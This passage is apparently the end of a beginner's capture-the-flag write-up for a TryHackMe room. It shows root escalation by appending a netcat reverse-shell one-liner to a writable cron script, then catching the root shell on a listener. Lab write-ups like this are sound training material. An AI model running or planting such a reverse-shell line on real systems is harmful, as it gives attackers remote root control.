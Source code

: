 If we now amend (I will append >> in this instance) the file by adding a reverse bash shell:
```
--r---@kral4-PC:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.12.213 4445 >/tmp/f" >> /var/www/.mysecretcronjob.sh
```
We can check this again with a cat command. Once happy, we set up the netcat on port 4445.
```
~/CTF/tryhackme/easy_peasy$ nc -lnvp 4445
```
A few moments later we get the root shell.

```
~/CTF/tryhackme/easy_peasy$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.9.12.213] from (UNKNOWN) [10.10.111.59] 49166
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

```
With root we now look for the final flag which we find in the usual place, just hidden!!

```
flag{6-------------------649--------5}
```

I loved this room. Although I am a beginner, I actually got through this room without any write ups. It is true, the more you do, the better you become!

My first but hopefully not my last!!

Regards

K

![](/images/Karti.png)
